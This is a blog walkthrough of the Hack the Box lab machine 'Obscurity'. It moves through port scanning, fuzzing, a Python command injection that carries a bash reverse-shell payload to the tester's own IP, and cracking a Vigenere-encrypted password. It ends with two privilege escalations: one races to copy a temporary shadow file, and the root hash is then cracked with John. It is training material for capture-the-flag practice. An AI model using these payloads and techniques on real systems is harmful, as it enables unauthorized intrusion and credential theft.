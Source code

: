 +++
author = "Nick"
categories = ["hack the box", "burpsuite", "command injection", "reverse shell", "python", "custom exploitation", "medium", "wfuzz", "john"]
date = 2020-05-09T14:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/info.png"
slug = "hack-the-box-obscurity"
summary = "Welcome back everyone! Today we'll be doing the machine Obscurity on Hack the Box. It's listed as a medium Linux machine, let's jump in!"
tags = ["hack the box", "burpsuite", "command injection", "reverse shell", "python", "custom exploitation", "medium", "wfuzz", "john"]
title = "Hack the Box - Obscurity"

+++


Welcome back everyone! Today we'll be doing the machine Obscurity on Hack the Box. It's listed as a medium Linux machine, let's jump in!

As usual we start with ```nmap```: ```nmap -sC -sV -T4 -p- -oA initial_scan 10.10.10.168```.

Here are our results:
```
Nmap scan report for 10.10.10.168
Host is up (0.055s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 23 Dec 2019 14:38:24
|     Server: BadHTTPServer
|     Last-Modified: Mon, 23 Dec 2019 14:38:24
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=12/23%Time=5E00D11F%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Mon,\x2023\x20Dec\x202
SF:019\x2014:38:24\nServer:\x20BadHTTPServer\nLast-Modified:\x20Mon,\x2023
SF:\x20Dec\x202019\x2014:38:24\nContent-Length:\x204171\nContent-Type:\x20
SF:text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\
SF:"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>
SF:\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t
SF:<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-
SF:scale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20n
SF:ame=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Temp
SF:late\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20s
SF:tylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/bo
SF:otstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-
SF:awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templ
SF:atemo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-targe
SF:t=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n
SF:<div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinne
SF:r-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x2
SF:0Mon,\x2023\x20Dec\x202019\x2014:38:24\nServer:\x20BadHTTPServer\nLast-
SF:Modified:\x20Mon,\x2023\x20Dec\x202019\x2014:38:24\nContent-Length:\x20
SF:4171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x2
SF:0html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\
SF:t<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20c
SF:ontent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20cont
SF:ent=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\n
SF:Easy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pr
SF:ofile\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"styles
SF:heet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"styleshee
SF:t\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\
SF:"scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x2
SF:0section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"
SF:sk-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our results seem to show a web server with a production and dev enviornment. Looks like we're running ```Wordpress``` on the 9000 port as well. Let's visit the site and see what's here. We know port 80 is closed but 8080 is running and we are greeted a basic page. From browsing the page we get a hostname, obscure.htb, so we'll add that to our host file. We also know there are some more settings listed in a secret development directory somewhere. So we'll load up ```gobuster``` and see what we get back.

Command:
```gobuster dir -u http://obscure.htb:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 75```

When we run this we get a flood of errors back. This is to do ```gobuster``` using ```Head``` requests vs ```get```. Well, we know that we are looking for ```SuperSecureServer.py```. We can just fuzz the directory(ies) we are looking for using ```ffuf``` or ```wfuzz```.

Command:
```wfuzz -c -w /usr/share/wordlists/dirb/small.txt --hc 404 'http://obscure.htb:8080/FUZZ/SuperSecureServer.py'```

I ran a few larger wordlists against the target but all of them failing after ~2,200 requests. So we pick an even smaller listing.

![](/images/2019/12/obscurity_fuzz.gif)

We find our target is stored under ```develop```. Lets get the file.

Command: 
```wget 'http://obscure.htb:8080/develop/SuperSecureServer.py'```

Once we have it downloaded, we look at what's inside.

![](/images/2019/12/image-40.png)

We found our foothold. If we are able to pass our command and escape the first part, we should be able to execute some python code we inject. We need to make sure we format our request correctly. We want to close the first part of the ommand with ```';``` then execute our code and close the command. I used a simple bash reverse shell:

```
;os.system('bash%20-c%20"bash%20-i%20>&%20/dev/tcp/10.10.15.129/4444%200>&1"');'
```

We apply this to our URL and wait for our connector...

![](/images/2019/12/obscurity_www_shell.gif)

We now have a shell as ```www-data```. Now that we have a shell we can start enumerating internally. We see a few files in ```Robert```'s home directory. ```SuperSecureCrypt.py``` and ```passwordreminder.txt```. We download the python script and look at it locally. It looks to contain an [```Vigenere cipher```](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher) method. If you are familiar with this cipher you know that we can obtain the password for the file if you know the original input.

![](/images/2019/12/obscurity_key.gif)

It looks like our password was ```alexandrovich```. We can now take this password and decrypt our ```passwordreminder.txt```. Repeating the process but supplying a ```-k``` of ```alexanderovich``` gives us a password of ```SecThruObsFTW```. Which assumably is Robert's password. We try to SSH as him and it works.

![](/images/2019/12/obscurity_robert_ssh-1.gif)

Now that we've gotten our ```user.txt```. Lets start enumerating as Robert. We see that Robert is able to launch ```BetterSSH.py``` as sudo.

![](/images/2019/12/image-41.png)

When we look through ```BetterSSH.py``` we see there are a few avenue's of attack. The first being this ```command injection```.

![](/images/2019/12/image-42.png)

The application calls the command you input with the ```-u``` flag. So if we simply apply another ```-u``` to our input, we can do things as ```root```!

![](/images/2019/12/obscurity_root_1.gif)

The other method is that we see that copies the system shadow file out to a temporary directory every .1 seconds. If we can monitor this file location, we can snag the file before it's deleted. So we'll make a file on ```/tmp``` called snag. Then we'll run the ```watch``` command every .1 seconds. We then run the ```BetterSSH.py``` script and snag the file before it's created.

Command:
```watch -n .1 cp /tmp/SSH/* /tmp/snag```

![](/images/2019/12/obscurit_root_2.gif)

We can then get the contents of the file we copied. Inside it we have the root hash.

![](/images/2019/12/image-43.png)

We can just run it through ```John``` and see if we get a password.

![](/images/2019/12/obscurity_root_hash-1.gif)

Sure enough, we get one: ```mercedes```. We can now just ```su``` to root.

![](/images/2019/12/obscurity_root_su.gif)

There we have it. Another box down!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

